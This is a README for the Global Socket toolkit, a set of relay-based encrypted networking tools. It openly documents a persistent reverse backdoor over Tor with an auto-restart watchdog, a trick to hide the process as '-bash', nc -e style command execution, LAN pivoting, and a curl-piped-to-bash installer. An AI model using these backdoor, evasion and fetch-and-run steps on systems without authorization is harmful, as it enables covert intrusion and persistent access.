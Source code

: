 # Global Socket
**Moving data from here to there. Securely, Fast and trough NAT/Firewalls.**

Global Socket allows two users behind NAT/Firewall to establish a TCP connection with each other. Securely.

**Features:**
- Uses the Global Socket Relay Network to connect TCP pipes
- End-2-End encryption (using OpenSSL's SRP / [RFC 5054](https://tools.ietf.org/html/rfc5054))
- AES-256 & key exchange using 4096-bit Prime
- No PKI required.
- Perfect Forward Secrecy
- TOR support (optional)

Abandon the thinking that an IP Address is needed to communicate with somebody. Instead start thinking that two users should be able to communicate with each other as long as they know the same secret (key/password). The Global Socket library handles the rest: It locally derives temporary session keys and IDs and connects with the other user trough the Global Socket Relay Network (GSRN). Once found the library then negotiates a secure TLS connection between both users (End-2-End). **The GSRN sees only the encrypted traffic**.

The GSRN is a free cloud service and is free to use by anyone.

Includes:
* **gs-netcat** - Netcat on steroids. Turn gs-netcat into an AES-256 encrypted reverse backdoor via TOR (optional) with a true PTY/interactive command shell (```gs-netcat -s MySecret -i```), spawn a Socks4/4a/5 proxy or forward TCP connections or give somebody temporary shell access.
* **gs-sftp** - sftp server & client between two firewalled workstations (```gs-sftp -s MySecret```)
* **gs-mount** - Access and mount a remote file system (```gs-mount -s MySecret ~/mnt/warez```)
* **blitz** - Copy data (single or recursivley) (```blitz -s MySecret /usr/share/*```)
* ...many more examples and tools.

Download: [gsocket-1.4.19.tar.gz](https://github.com/hackerschoice/gsocket/releases/download/v1.4.19/gsocket-1.4.19.tar.gz) <BR>
Man Page: [gs-netcat(1)](https://hackerschoice.github.io/gs-netcat.1.html), [gs-mount(1)](https://hackerschoice.github.io/gs-mount.1.html), [gs-sftp(1)](https://hackerschoice.github.io/gs-sftp.1.html), [blitz(1)](https://hackerschoice.github.io/blitz.1.html)

**BETA BETA BETA. PRIVATE RELEASE ONLY.**
---
**TEST SERVER FOR TESTING = TRY ANY OF THESE COMMANDS**

The Test-Server is running behind NAT/FIREWALL and your commands will use the GSRN to connect to the test-server.
```
### Access the test-server
$ gs-sftp -s THCWarezServer

### Mount a directory from the test-server to your local workstation
$ mkdir ~/mnt
$ gs-mount -s THCWarezServer ~/mnt   

### Transfer 'directory-with-stuff' to the test-server
$ blitz -s BLITZServer directory-with-stuff

### Transfer all your mp3 to the test-server
$ find . -name '*.mp3' | blitz -s BLITZServer -f -

### Get a root-shell on the test-server
$ gs-netcat -s AskUsForThePassword -i
```
---
**Installation:**
```
$ /bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/hackerschoice/gsocket/master/install.sh)"
```
---
**Usage:**

1. Log in to *Host* from *Workstation* through any firewall/NAT
```
$ ./gs-netcat -l -i   # Host
$ ./gs-netcat -i      # Workstation
```

2. Transfer files from *Workstation* to *Host*
```
$ blitz -l                         # Host
$ blitz /usr/share/*  /etc/*       # Workstation
...or use gs-netcat...
$ gs-netcat -l -r >warez.tar.gz    # Host
$ gs-netcat <warez.tar.gz          # Workstation
```

3. SFTP through Global Socket Relay Network
```
$ gs-sftp -l                  # Host
$ gs-sftp                     # Workstation
```

4. Mount a firectory from Host
```
$ gs-mount -l                # Host
$ gs-mount ~/mnt             # Workstation
```

5. Port forward. *Workstation's* Port 2222 is forwarded to 192.168.6.7 on *Host's* private LAN
```
$ gs-netcat -l -d 192.168.6.7 -p 22 # Host
$ gs-netcat -p 2222                 # Workstation
$ ssh -p 2222 root@127.0.0.1        # Will ssh to 192.168.6.7:22 on Host's private LAN
...or...
$ gs-netcat -s MySecret -l -d 192.168.6.7 -p 22                   # Host
$ ssh -o ProxyCommand='gs-netcat -s MySecret' root@doesnotmatter  # Workstation
```

6. Execute any command (nc -e style)
```
$ gs-netcat -l -e "echo hello world; id; exit"   # Host
$ gs-netcat                                      # Workstation
```

7. Quick Secure Chat with a friend
```
$ gs-full-pipe -s MySecret -A               # You
$ gs-full-pipe -s MySecret -A               # Them
```

8. Access entirety of Host's private LAN (Sock4/4a/5 proxy)
```
$ gs-netcat -l -S                                  # Host
$ gs-netcat -p 1080                                # Workstation

Access www.google.com via Host's private LAN from your Workstation:
$ curl --socks4a 127.1:1080 http://www.google.com 

Access fileserver.local:22 on Host's private LAN from your Workstation:
$ socat -  "SOCKS4a:127.1:fileserver.local:22"
```

9. SoCAT 2 
```
gs-netcat can be used in a socat address-chain using the EXEC target. Happy bouncing. Enjoy. :> 
```
---
**Pro-Tips:**

1. Force TOR or fail:
Add -T to relay your traffic through TOR or use these environment variable to force TOR or fail gracefully if TOR is not running:
```
$ export GSOCKET_SOCKS_IP=127.0.0.1
$ export GSOCKET_SOCKS_PORT=9050
```

2. A reverse backdoor

The backdoor supports multiple concurrent connections and spawns a real PTY/interactive-shell with ctrl-c and colors working (like OpenSSH does).
```
$ gs-netcat -k keyfile.txt -l -i    # Host
$ gs-netcat -k keyfile.txt -T -i    # Workstation (via Tor & Global Socket Relay)
```

Add -D on the host side to run gs-netcat as a daemon and in watchdog-mode: The backdoor will automatically restart if it is ever killed.

3. Use -k

Using -s is not secure. Add your *secret* to a file and use -k &lt;filen&gt; or use GSOCKET_ARGS or enter the password when prompted.

```
$ gs-netcat -k MyFile.txt

$ export GSOCKET_ARGS="-s MySecret"
$ gs-netcat -l
```

Use this command to generate a new secure password at random:
```
$ gs-netcat -g
```

4. Hide your arguments (argv)

Pass the arguments by environment variable (GSOCKET_ARGS) and use a bash-trick to hide gs-netcat binary in the process list:
```
$ export GSOCKET_ARGS="-s MySecret -l -i -D"
$ exec -a -bash ./gs-netcat &     # Hide as '-bash'.
$ ps alxww | grep gs-netcat

$ ps alxww | grep -bash
  1001 47255     1   0  26  5  4281168    436 -      SNs    ??    0:00.00 -bash
```

---
**Crypto / Security Mumble Jumble**
1. The security is end-2-end. This means from User-2-User (and not just to the Relay Network). The Relay Network relays only (encrypted) data to and from the Users. 
2. The session key is 256 bit and ephemeral. It is freshly generated for every session and generated randomly (and is not based on the password).
3. The password can be 'weak' without weakening the security of the session. A brute force attack against a weak password requires a new TCP connection for every guess.
4. Do not use stupid passwords like 'password123'. Malice might pick the same (stupid) password by chance and connect. If in doubt use *gs-netcat -g* to generate a strong one. Alice's and Bob's password should at least be strong enough so that Malice can not guess it by chance while Alice is waiting for Bob to connect.
5. If Alice shares the same password with Bob and Charlie and either one of them connects then Alice can not tell if it is Bob or Charlie who connected.
6. Assume Alice shares the same password with Bob and Malice. When Alice stops listening for a connection then Malice could start to listen for the connection instead. Bob (when opening a new connection) can not tell if he is connecting to Alice or to Malice. Use -a &lt;token&gt; if you worry about this. TL;DR: When sharing the same password with a group larger than 2 then it is assumed that everyone in that group plays nicely. Otherwise use SSH over the GS/TLS connection.
7. SRP has Perfect Forward Secrecy. This means that past sessions can not be decrypted even if the password becomes known.
8. I did not invent SRP. It's part of OpenSSL :>
---

Join us 

Telegram: https://t.me/thcorg 

Twitter: https://twitter.com/hackerschoice

shoutz: D1G, xaitax, #!adm
